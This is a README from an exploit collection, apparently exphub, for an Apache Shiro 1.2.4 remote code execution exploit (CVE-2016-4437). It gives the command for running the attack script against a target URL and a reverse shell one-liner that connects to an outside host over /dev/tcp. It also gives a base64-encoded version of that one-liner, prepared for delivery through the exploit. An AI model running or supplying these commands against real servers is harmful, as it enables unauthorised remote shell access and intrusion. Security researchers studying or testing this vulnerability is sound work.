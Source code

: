 # Readme
Apache Shiro 


<details>
<summary>Shiro 1.2.4 [点击展开] </summary>
  
```
+-------------------------------------------------------------------------------------------------------+
+ DES: By zhzyker as https://github.com/zhzyker/exphub                                                  +
+      Vuln Name: CVE-2016-4437 | Shiro 550  |  Shiro 1.2.4                                             +
+                                                                                                       +
+      Nc shell need encode command: http://www.jackson-t.ca/runtime-exec-payloads.html                 +
+      Original: bash -i >&/dev/tcp/1.1.1.1/233 0>&1                                                    +
+      Encoding: bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMjMzIDA+JjE=}|{base64,-d}|{bash,-i}  +
+-------------------------------------------------------------------------------------------------------+
+ USE: python3 <filename> <url>                                                                         +
+ EXP: python3 shiro-1.2.4_rce.py http://1.1.1.1:8080                                                   +
+ VER: Apahce Shiro <= 1.2.4                                                                            +
+-------------------------------------------------------------------------------------------------------+
```

Linux系统使用base64编码发送命令，Windows发送默认字符  
利用示例：  
![images](https://github.com/zhzyker/exphub/tree/master/shiro/image/1.gif)
![images](https://github.com/zhzyker/exphub/tree/master/shiro/image/2.gif)

</details>



